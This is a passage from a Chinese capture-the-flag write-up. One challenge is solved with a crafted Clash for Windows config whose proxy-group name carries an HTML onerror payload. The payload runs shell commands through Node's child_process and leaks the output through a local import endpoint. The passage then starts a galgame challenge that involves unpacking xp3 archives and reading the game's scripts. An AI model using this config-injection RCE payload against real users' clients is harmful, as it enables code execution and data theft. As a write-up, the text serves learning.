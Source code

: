 ```html
<input id="primogem_code" type="password" style="width: 300px" />
<script>
    setTimeout(() => {
        document.getElementById("primogem_code").type = "input";
    }, 3000);
</script>
```

写题解时看到有人直接在题目环境里用 Node.js 开了 HTTP 服务。

看了二阶段提示，可以 RCE，太棒了。还是想试试不借助自己控制的服务器把结果传出来。
pastebin 是公开的不太好，一时半会不好找 API 比较简单的服务。这时想到可以调用本机的
`/api/import` 接口，显示在图形界面上。测试发现效果很好，cfw 会在错误弹窗里显示完整
URL，而且不影响下次 import。因为都是执行命令显示输出，flag1 和 flag3 的代码基本一样。

```yaml
mode: Rule
proxies:
  - name: normal
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true

proxy-groups:
  -
    name: a<img src="1" onerror="eval(`require('child_process').exec('grep flag /app/profiles/flag.yml', (_, o, __) => { require('http').get(('http://127.0.0.1:3030/api/import?url=' + encodeURIComponent('http://'+Buffer.from(o).toString('hex')+'.com')));});`)" />
    type: select
    proxies:
    - normal
```

## 汉化绿色版免费下载

打开附件，熟悉的 xp3。运行程序，熟悉的乱码，熟练地用 Locale-Emulator 中文 Profile
运行。是二进制高手都喜欢玩 gal game，还是喜欢玩 gal game 的人都变成了二进制高手？

先玩一下看看，输入两个 `}` 速通，显示的 flag1 看不清。

解包 xp3。试了 <https://github.com/awaken1ng/krkr-xp3>
会抛异常，<https://github.com/storycraft/xp3-tool>
工作正常。尝试直接把背景换成黑色重新打包，能看到一点底边，但还是看不清。

随手 `grep` 了一下，发现原来 flag1 就在 `scenario/done.ks` 里。

补充说明说 flag2 是存档里的输入序列。看了下存档，是二进制格式。
手打了几个存档来对比，完全看不懂。Cheat Engine 试了一下也搜不到。
看通过人数那么多，不像是需要逆向的。

回去看 ks 脚本，原来是 GBK 编码。游戏用输入的字符串计算
hash，比较是否相同。模仿着改了脚本，在游戏中显示变量内容。原来的文本在进入
round2 时已经被覆盖掉了，只剩 hash。
